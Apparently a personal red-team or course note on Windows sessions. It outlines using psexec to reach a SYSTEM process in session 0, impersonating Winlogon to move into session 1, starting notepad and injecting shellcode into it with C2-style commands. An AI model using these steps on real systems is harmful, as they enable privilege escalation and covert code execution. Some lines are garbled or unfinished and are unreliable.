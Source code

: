 ```yaml
---
title: Integrity and Session IDs
updated: 2023-11-03 06:15:19Z
created: 2023-11-03 04:14:18Z
latitude: -33.86881970
longitude: 151.20929550
altitude: 0.0000
---
```


## Integrity and Session IDs
**Concept**: Try to move from a session level "0" process to a sessions level "3" ("1" in windows)

1. Use **psexec** to get access to a session "0" process running as  SYSTEM user
`psexec localhost servicebinary`
![4a5704934b7e7ab542fd97d1588a5e63.png](../../../_resources/4a5704934b7e7ab542fd97d1588a5e63.png)

2. Impersonate Winlogon to get a session "1" session running as 
`ImpersonateProcess <process_number>`
![dfabe7449381cc8034a3bea9a6667cd6.png](../../../_resources/dfabe7449381cc8034a3bea9a6667cd6.png)
3.Generate notepad from the session 1 session
`sharpshell var target = System.Diagnostics.Process.Start("notepad"); return target.Id.ToString();`
4. Inject shellcode into notepad
`Inject /processid:"<notepad_process_id>"`




